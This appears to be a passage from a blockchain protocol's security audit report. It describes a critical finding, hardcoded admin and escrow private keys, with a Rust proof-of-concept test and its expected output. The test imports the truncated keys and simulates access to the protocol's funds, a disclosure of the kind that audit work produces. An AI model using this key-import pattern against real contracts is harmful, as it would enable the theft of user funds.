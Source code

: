 
## 🚨 CRITICAL VULNERABILITY EXPLOITS (12 PoCs)

### 🔴 VUL-096: Private Keys Exposed - CATASTROPHIC EXPLOIT
**File**: `src/tests/vuln-096-private-keys-exposed-poc.rs`
**CVSS**: 10.0 | **Economic Impact**: $∞ (Complete Protocol Compromise)

#### Exploit Execution
```bash
# Run the catastrophic private key exploitation
cargo test vuln_096_private_keys_exposed_poc --release

# Expected Output:
# 🚨 CATASTROPHIC EXPLOIT SUCCESSFUL
# 💰 Total funds accessible: $1,750,000+
# 🔑 Admin keys compromised: YES
# 🏦 Escrow keys compromised: YES
# ⚠️  Protocol status: FULLY COMPROMISED
```

#### Attack Demonstration
```rust
// Key exploit code snippet
#[test]
fn vuln_096_private_keys_exposed_poc() {
    println!("🚨 VUL-096: CATASTROPHIC PRIVATE KEY EXPOSURE");

    // Simulate attacker discovering keys in public source code
    let hardcoded_admin_key = "5K7Rg8mBxF9j2H8L..."; // From contract source
    let hardcoded_escrow_key = "3M9kL2c4TyP8Nd1Q..."; // From contract source

    // Attacker imports private keys
    let stolen_admin = Keypair::from_base58_string(hardcoded_admin_key);
    let stolen_escrow = Keypair::from_base58_string(hardcoded_escrow_key);

    // Verify complete administrative control
    assert_eq!(stolen_admin.pubkey(), PROTOCOL_ADMIN_PUBKEY);
    assert_eq!(stolen_escrow.pubkey(), ESCROW_VAULT_PUBKEY);

    // Demonstrate complete fund access
    let total_protocol_funds = 1_750_000_000_000; // $1.75M USDC
    let funds_at_risk = simulate_fund_access(&stolen_escrow);

    assert!(funds_at_risk >= total_protocol_funds);

    println!("💰 Funds at risk: ${:.0}", funds_at_risk as f64 / 1_000_000.0);
    println!("🚨 Result: COMPLETE PROTOCOL COMPROMISE");
    println!("⚠️  Recommendation: IMMEDIATE SHUTDOWN REQUIRED");
}
```
